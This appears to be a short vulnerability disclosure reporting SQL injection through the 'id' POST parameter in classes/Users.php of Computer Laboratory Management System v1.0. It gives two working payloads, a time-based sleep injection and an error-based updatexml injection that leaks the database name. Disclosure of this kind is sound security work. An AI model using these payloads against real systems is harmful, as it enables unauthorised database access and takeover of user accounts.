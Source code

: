 # blob
BUG_Author:
K1ngd0m3

Affected version:
Computer Laboratory Management System v1.0

Vendor:
https://www.sourcecodester.com/

Software:
https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html

Vulnerability File:
classes/user.php

Description:
computer Laboratory Management System v1.0 is vulnerable to sql injection via /classes/Users.php
The parameter “id” has not been handled correctly. Hackers can exploit this vulnerability to manipulate the system’s administrator account and gain full control over other user accounts’ information.
![image](https://github.com/adminininin/blob/assets/136336674/5a1744cb-e509-4d2a-972c-330d312bcafb)
As shown in the screenshot, at line 154 of the source code, the parameter “id” has not been properly filtered, resulting in a SQL injection vulnerability.




POST parameter ‘id’ exists SQL injection vulnerability

Payload1:1' and sleep(10)#
![image](https://github.com/adminininin/blob/assets/136336674/d419484c-254b-4441-9b70-b95599a12d2a)
you can see the server sleep ten seconds

Payload2:1'or(updatexml(0,concat(0x5e,database()),0))
![image](https://github.com/adminininin/blob/assets/136336674/f9ccaa05-8542-42f8-8600-1f5128fe7e66)
you can see the db_name
